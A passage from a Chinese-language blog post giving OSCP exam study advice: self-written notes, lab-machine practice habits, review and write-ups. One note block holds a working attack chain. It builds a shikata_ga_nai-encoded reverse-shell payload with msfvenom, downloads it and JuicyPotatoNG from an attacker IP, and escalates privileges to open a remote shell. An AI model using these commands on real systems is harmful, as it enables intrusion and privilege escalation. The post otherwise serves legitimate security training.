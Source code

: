 如果你像我一樣是個從 TryHackMe 學上來的小白，直接走這條路會非常辛苦。直接上 OSCP 意味著要在短時間內學習大量的滲透測試知識並運用於類似實務的環境。這非常具有挑戰性，如果你很有時間我也建議可以先把基礎夯實再走，不然很有可能到頭來一場空，東西沒學好，考試也考不過。

## 一些關於學習上的小技巧

花點時間來聊聊學習上的小技巧，也就是怎麼讓自己的學習更加順利的幾個小方法。除了吃飽跟睡飽之外，還有一些我覺得可以讓自己進步得更快，或是更有系統性的整理知識的方法。

### 自己做筆記

在各種各樣的課堂上我們會學到各種攻擊手法，關於攻擊手法的筆記，當然網路上有很多像是 [HackTricks](https://book.hacktricks.xyz/) 都有一些完整的內容，但我還是覺得要自己整理。自己寫下來的好處非常多。最主要的點是，要運用網路上既有的手法是很困難的。舉例來說像是我們在 HackTricks 看到 UAC Bypass 的方法，我們照著執行了，但什麼事情都沒發生。有可能的原因有好幾個。

1. 你確定現在有 UAC 打開嗎?
2. 現在的 User 沒有權限的問題是因為 UAC嗎?
3. 你所複製的手法具體的內容跟你現在的情況符合嗎?

我們會知道問題是從偵查開始一步步疊加而成的，會需要那個手法的原因是你只是「剛好忘記」具體的執行方式怎麼弄，而不是在亂槍打鳥覺得自己應該要怎麼做。這也是為什麼自己做筆記很好的一點，因為你會知道上面的東西都是你知道的，而你只是需要個地方把他記下來，這也是自己紀錄的意義。當然遇到不會的也一定要上網查，但自己的筆記也會比較符合自己的使用習慣，通常都會很清楚要怎麼弄，像是這是我自己做的 JuicyPotatoNG (SeImpersonatePrivilege) 用法的筆記。

```powershell
# jpng.exe

msfvenom --payload windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=9889 -e x64/shikata_ga_nai --format exe -o tcp9889.exe

cp /opt/JuicyPotatoNG.exe ./JuicyPotatoNG.exe

python3 -m http.server 80

iwr 10.10.14.23/JuicyPotatoNG.exe -o C:\\programdata\\JuicyPotatoNG.exe
iwr 10.10.14.23/tcp9889.exe -o c:\\programdata\\tcp9889.exe

rlwrap nc -lvnp 9889

C:\\programdata\\JuicyPotatoNG.exe -t * -p 'C:\windows\system32\WindowsPowerShell\v1.0\powershell.exe' -a '-c C:\\programdata\\tcp9889.exe'
```

透過自己寫的東西，可以很快地達成自己要的目的，避免重複性的手打也避免筆誤犯錯(不要不信，真的很常發生)。

此外補充一下關於課堂的筆記，課堂的筆記我覺得有點玄之又玄，常常寫下來也不知道自己在寫什麼，我覺得還是把關鍵的指令記錄下來就好，有遇到問題，翻回去再查，把知識點一個一個寫下來通常也起不了什麼特別的作用。滲透測試的練習很少會去翻書溫習像是 UAC Bypass 的原理是什麼，知道第一次之後接下來都是實戰比較多。

### 如何打靶機

關於如何打靶機，我必須醜話先講在前頭，我並不是一個特別會打靶機的人，所以這個部分就看看就好。那至於為什麼要特別拉出來講是因為，靶機大概佔了整體學習時間的 50~80%，幾乎所有時間都在打靶機。打靶機有幾個重點要注意。

1. 做筆記。關於筆記的內容可以包羅萬象，但做筆記非常非常非常重要，可以省下很多重複性的麻煩。將自己已經做過的事情記錄下來可以避免自己撞牆之後再去撞一次，最關鍵的是，**後續才可以知道自己有什麼事情沒做**。如果沒做筆記的話，常常在檢討的時候就只會覺得「噢，原來這邊可以這樣做」而不是「我的流程裡面缺少了某個部分」。關於學習筆記可以看 OffSec S1ren 的 walkthrough，她的筆記做得相當好，千萬別學 ippsec 那樣，他很多時候都是已經打完再回頭講解的，不是第一次就打得那麼好然後什麼都不用寫。
2. 耐心。這邊就不重複 OffSec 的名言 Try Harder 了。但耐心是相當重要的，把關鍵的資料看過一遍再一遍，確認自己沒有任何遺漏之後再前進。
3. 上網找資料。遇到不會的問題的時候，把各種可能性餵給 Google，你會很意外 Google 能解決問題的機率高得離奇。
4. 休息。卡住了適當的休息，走走，整理筆記都是很好的手段，有時候一頭栽進去反而容易見木不見林。
5. 檢討。如同上方 ippsec 在 X 上所說的，「練習並不能造就完美，完美的練習才能造就完美」，花更多時間檢討並把這次沒做好的東西學起來，或是把已經做好的東西做得更好是進步的關鍵。
6. 寫 write-up。我沒什麼資格講這個畢竟我也寫得很少，但透過寫作的過程是可以把 1-5 全部實踐並且精進的方法，我強烈建議有空的話就把 write-up 寫起來放。
